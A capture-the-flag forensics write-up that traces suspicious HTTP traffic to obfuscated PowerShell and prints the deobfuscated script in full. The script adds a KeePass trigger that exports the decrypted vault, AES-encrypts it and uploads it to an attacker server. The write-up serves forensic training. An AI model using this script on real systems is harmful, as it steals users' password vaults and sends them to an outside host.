


## Homeland Justice
### Challenge Description
Well There's some HTTP activity going on in the network. Strangee ... all I did was start Keepass you need to find out what's going on.

#### Solution

Filter For HTTP you will find Powershell code.

The code is obfuscated, after Deobfuscating with PowerDecode you will see it injects a malicious XML code in Keepass config file.
when the user decrypts his vault the trigger sends the decrypted vault to the attacker web server. (POST REQUEST)
However it gets encrypted in AES before sending (Hardcoded key and IV)

```
$filename = "C:\Windows\Tasks\export.txt"
$uploadURL = $true
$url = "http://192.168.202.133/index.php"


$APPDATA = [Environment]::GetEnvironmentVariable("APPDATA")
$config_File = "$APPDATA\KeePass\KeePass.config.xml"
$xml = [xml](Get-Content $config_File)
$xml.SelectNodes("//Triggers").RemoveAll()
$xml.Save($config_File)

$exportCommands = '<Parameter>' + $filename + '</Parameter>'

$uploadCommands = ""
$uploadAction = ""

  
  $upload = '$Key=[System.Convert]::FromBase64String("MTdBOVZEIFBDQUI2UjNEWElBLUI5QUtDSlM5LVZEQTh=");' +
            '$IV=[System.Convert]::FromBase64String("UFGQiVFTDdCJFBDVTlFMzl==");' +
            '$AES=[System.Security.Cryptography.AesManaged]::new();' +
            '$AES.Mode=[System.Security.Cryptography.CipherMode]::CBC;' +
            '$AES.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;' +
            '$AES.Key=$Key;$AES.IV=$IV;' +
            '$Encryptor=$AES.CreateEncryptor();' +
            '$PlainText=[System.IO.File]::ReadAllText("'+$filename+'");' +
            '$Bytes=[System.Text.Encoding]::UTF8.GetBytes($PlainText);' +
            '$EncryptedBytes=$Encryptor.TransformFinalBlock($Bytes,0,$Bytes.Length);' +
            '$EncryptedText=[System.Convert]::ToBase64String($EncryptedBytes);' +
            '$file=[System.IO.Path]::GetFileName("'+$filename+'");' +
            '$http=New-Object System.Net.WebClient;' +
            '$http.Headers.Add("Content-Type","application/x-www-form-urlencoded");' +
            '$http.UploadString("'+$url+'","filename=$file&data=$EncryptedText");'
  
  $bytes = [Text.Encoding]::Unicode.GetBytes($upload)
  $encodedCommands = [Convert]::ToBase64String($bytes)
  $uploadCommands = '<Parameter>-ex bypass -noprofile -EncodedCommand ' + $encodedCommands + '</Parameter>'

  $uploadAction = "
    <Action>
      <TypeGuid>2uX4OwcwTBOe7y66y27kxw==</TypeGuid>
      <Parameters>
        <Parameter>PowerShell.exe</Parameter>
        $uploadCommands
        <Parameter>False</Parameter>
        <Parameter>1</Parameter>
        <Parameter />
      </Parameters>
    </Action>"


$TriggerXML = [xml] @"
<Trigger>
  <Guid>$([Convert]::ToBase64String([guid]::NewGuid().ToByteArray()))</Guid>
  <Name>Offline notepad style backup of passwords</Name>
  <Events>
    <Event>
      <TypeGuid>5f8TBoW4QYm5BvaeKztApw==</TypeGuid>
      <Parameters>
        <Parameter>0</Parameter>
        <Parameter />
      </Parameters>
    </Event>
  </Events>
  <Conditions />
  <Actions>
    <Action>
      <TypeGuid>D5prW87VRr65NO2xP5RIIg==</TypeGuid>
      <Parameters>
        $exportCommands
        <Parameter>KeePass CSV (1.x)</Parameter>
        <Parameter />
        <Parameter />
      </Parameters>
    </Action>
    $uploadAction
  </Actions>
</Trigger>
"@


ForEach($Object in $config_File) {
  if ($Object -is [String]) {
    $KeePassXMLPath = $Object
  }
  elseif ($Object.PSObject.Properties['KeePassConfigPath']) {
    $KeePassXMLPath = [String]$Object.KeePassConfigPath
  }
  elseif ($Object.PSObject.Properties['Path']) {
    $KeePassXMLPath = [String]$Object.Path
  }
  elseif ($Object.PSObject.Properties['FullName']) {
    $KeePassXMLPath = [String]$Object.FullName
  }
  else {
    $KeePassXMLPath = [String]$Object
  }

  if ($KeePassXMLPath -and ($KeePassXMLPath -match '.\.xml$') -and (Test-Path -Path $KeePassXMLPath)) {
    $KeePassXMLPath = Resolve-Path -Path $KeePassXMLPath
    $KeePassXML = [xml](Get-Content -Path $KeePassXMLPath)
    $null = [GUID]::NewGuid().ToByteArray()
    if ($KeePassXML.Configuration.Application.TriggerSystem.Triggers -is [String]) {
      $Triggers = $KeePassXML.CreateElement('Triggers')
      $Null = $Triggers.AppendChild($KeePassXML.ImportNode($TriggerXML.Trigger, $True))
      $Null = $KeePassXML.Configuration.Application.TriggerSystem.ReplaceChild($Triggers, $KeePassXML.Configuration.Application.TriggerSystem.SelectSingleNode('Triggers'))
    }
    else {
      $Null = $KeePassXML.Configuration.Application.TriggerSystem.Triggers.AppendChild($KeePassXML.ImportNode($TriggerXML.Trigger, $True))
    }
    $KeePassXML.Save($KeePassXMLPath)
  }
}
  


```


Now We have KEY and IV we need the data.

Filter for http.request.method == "POST"

Extract the data, it's encoded in b64

Decode it then pass it to Aes Decryptor function with the key and iv we extracted earlier. 

Submit the flag